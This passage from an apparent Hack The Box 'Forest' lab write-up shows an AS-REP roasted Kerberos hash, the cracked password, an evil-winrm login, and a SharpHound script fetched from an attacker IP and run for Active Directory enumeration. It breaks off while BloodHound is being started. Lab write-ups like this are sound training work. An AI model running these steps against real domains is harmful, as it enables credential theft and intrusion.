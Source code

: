 ```bash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4f9d4cd5d046a6e7b923325a60d6703c$7ffb0b88889552ad4592cdb182940a0aa17d0cc954ef858903d9a4cf1b6e149a19edda1d60a4c3e0cea983236f395acf208dc18c0bd65b559795775881b1d97f9f830b04f2948d8744fac64dfd5bc94cfaa9fce34a2aa75c424d48068cb1e088d77e400e49ce795a4fc462705eb3201de38c6bba6179a0dbea6154eff3d9981dc6dd42b0375f0dc4f11ad9fa7d4c902f2bb8036b1fcebca0b6cabac5250a6f9eef636f3b965030b56d5eeea10e326f8b3a01f1f5c6851a3d3ec84154add8b5f01afcd3bbd6ff7e986283b7cbdb0c81fb8308d0a9d5fea86fac931824c61edda85b992fc0e375
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
We have a hit for user `svc-alfresco`.

Crack it using `john`

### John

```bash
kali@kali:~/Desktop/htb/forest$ john hash.txt --show
$krb5asrep$23$svc-alfresco@HTB.LOCAL:s3rvice

1 password hash cracked, 0 left
```

We can now use `evil-winrm` to login to the system

```bash
kali@kali:~/Desktop/tools/win/evil-winrm$ ruby evil-winrm.rb -i forest.htb -p s3rvice -u svc-alfresco

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

## Privilege Escalation

After getting a shell, I tried enumerating for any exploit vectors. I could find none. After some hints from writeups, I knew that `blooudhound` is the way to go.

1. Download the `SharpHound.ps1` file to the windows machine.
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr -uri "http://10.10.14.21:8000/SharpHound.ps1" -outfile "sharp.ps
    1"
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./sharp.ps1
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All
    ```
2. Running this creates a `.zip` file.  
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir
        Directory: C:\Users\svc-alfresco\Documents
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        9/10/2020  10:40 AM          23675 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
    -a----        9/10/2020  10:37 AM         973425 sharp.ps1
    -a----        9/10/2020  10:21 AM         770279 view.ps1
    ```
3. Copy this to our system and start `bloodhound`.
    ```bash
    kali@kali:~/Desktop/htb/forest/aclpwn.py$ sudo neo4j console
    [sudo] password for kali:
    Directories in use: